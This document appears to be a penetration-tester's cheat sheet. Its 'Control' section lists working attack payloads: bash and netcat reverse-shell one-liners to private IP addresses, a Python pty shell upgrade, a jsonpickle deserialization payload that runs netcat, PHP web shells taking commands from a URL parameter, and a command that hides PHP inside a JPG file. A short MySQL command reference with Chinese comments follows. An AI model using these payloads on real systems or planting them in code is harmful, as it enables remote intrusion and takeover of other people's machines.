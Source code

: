 ## Control

### Sundry

```
copy /a a.php + /b b.jpg = c.jpg
bash -c 'sh -i &>/dev/tcp/192.168.253.136/4444 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.136 4444 >/tmp/f
```

### Python

```
python -c 'import pty; pty.spawn("/bin/bash")'
__import__('os').system('nc -e /bin/bash 192.168.253.136 4444')
{"py/object":"__main__.Shell","py/reduce":[{"py/function":"os.system"},["nc -e /bin/sh 192.168.56.102 5555"], 0, 0, 0]}
```

### PHP

```
<?php system($_GET['cmd']); ?>
<?php system("nc -e /bin/sh 192.168.253.136  4444"); ?>
```

## Other

### MySQL

```
create database <name>;                      //创建数据库
drop database <name>;                        //删除数据库
show databases;                              //显示数据库
use <name>;                                  //连接数据库
select database();                           //当前连接的数据库
-------------------------------------------------------------
show tables;                                 //显示数据表
desc <table>;                                //获取数据表结构
drop table <name>;                           //删除数据表
-------------------------------------------------------------
insert into <table> (key) values (..);       //表中插入数据
select * from <table>;                       //查看表中所有数据
select * from <table> where <if>;            //查看符合条件数据
delete from <table> where <if>;              //删除符合条件数据
update <table> set <val> where <if>;         //修改符合条件数据
-------------------------------------------------------------
union [all]                                  //联合查询
select * from <table> into outfile 'path';   //导出数据
mysqldump -u user -p data > file             //导出数据库
mysqldump -u user -p data table > file       //导出数据表
```
